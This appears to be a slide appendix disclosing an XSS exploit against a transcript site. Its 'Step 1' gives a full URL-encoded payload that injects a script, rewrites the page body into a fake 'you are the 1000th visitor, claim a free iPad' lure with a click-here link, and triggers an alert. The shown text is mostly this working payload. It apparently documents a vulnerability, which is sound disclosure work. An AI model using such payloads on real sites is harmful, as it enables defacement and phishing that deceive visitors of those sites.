

# Appendix: details of the XSS exploit
Step 1:
User input:

/transcripts/%3Ch1%3ECongratulations!%3C/h1%3E You are the 1000th visitor to the transcript site! You have been selected to receive a free iPad. To claim your prize %3Ca href='https:/www.youtube.com/watch?v=DLzxrzFCyOs'%3Eclick%20here!%3C/a%3E%3Cscript%20language=%22javascript%22%3Edocument.getRootNode().body.innerHTML='%3Ch1%3ECongratulations!%3C/h1%3EYou%20are%20the%201000th%20visitor%20to%20the%20transcript%20site!%20You%20have%20been%20selected%20to%20receive%20a%20free%20iPad.%20To%20claim%20your%20prize%20%3Ca%20href=%22https://www.youtube.com/watch?v=DLzxrzFCyOs%22%3Eclick%20here!%3C/a%3E';alert('You%20are%20a%20winner!');%3C/script%3E